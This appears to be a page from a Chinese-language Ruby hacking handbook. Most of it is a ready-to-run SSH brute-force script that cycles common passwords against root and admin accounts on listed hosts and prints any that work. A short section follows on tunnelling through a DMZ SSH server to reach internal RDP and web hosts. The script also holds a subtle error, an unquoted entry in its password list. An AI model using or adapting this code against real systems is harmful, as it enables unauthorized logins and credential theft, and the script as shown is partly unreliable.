 ## SSH 暴力破解

**ssh-bf.rb**

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password,
                   :auth_methods => ["password"], :port => port,
                   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}"
    end

  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}"
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' doesn't accept password authentication method."
  end
end

hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin', 'secret', coffee]

hosts.each do |host|
  users.each do |user|
    passs.each do |password|

      attack_ssh host, user, password

end end end 
```

## SSH 隧道

### 转发 SSH 隧道

```
 |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------| 
```
